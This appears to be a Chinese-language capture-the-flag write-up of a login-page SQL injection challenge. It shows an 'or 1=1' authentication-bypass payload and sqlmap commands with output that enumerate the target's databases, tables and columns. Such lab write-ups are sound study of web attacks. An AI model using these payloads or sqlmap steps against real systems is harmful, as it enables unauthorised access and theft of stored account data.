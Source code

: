![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/Tools__Software__assets__SQL.assets__0e185ed04c09d30db92fed5775aa16a.webp)



### 实例3
**登录界面注入**

用户名 `aaa' or 1=1 #`
密码随便

账号 admin
密码
nginx/1.10.0 (Ubuntu)

在这里卡了蛮久的,本来想通过朴素的万能密码的方式来登录，但是没有成功,在这里大概卡了一天半.

后来逛了逛校巴,发现welcome中有几道web的题目很相关,一道是教sqlmap的,另一道是教文件包含的.

做完了那两个题,再回头看这个题,思路就比较清晰了.


人工注入感觉我的sql水平应该达不到，所以尝试使用sqlmap进行注入

这里学习了一下post注入的方法
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/Tools__Software__assets__SQL.assets__20240801201104.webp)

先将burp的报文保存到一个文件中，然后使用sqlmap进行注入，使用`-r`参数加载文件，使用`-p`参数指定注入点

```shell
sqlmap -r ./test.txt -p username --dbs
```

```
[08:03:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] web400
```

```shell
sqlmap -r ./test.txt -p username -D web400 --tables
```

```
[08:04:00] [INFO] fetching tables for database: 'web400'
Database: web400
[1 table]
+-------+
| USERS |
+-------+
```

```shell
sqlmap -r ./test.txt -p username -D web400 -T USERS --columns
```
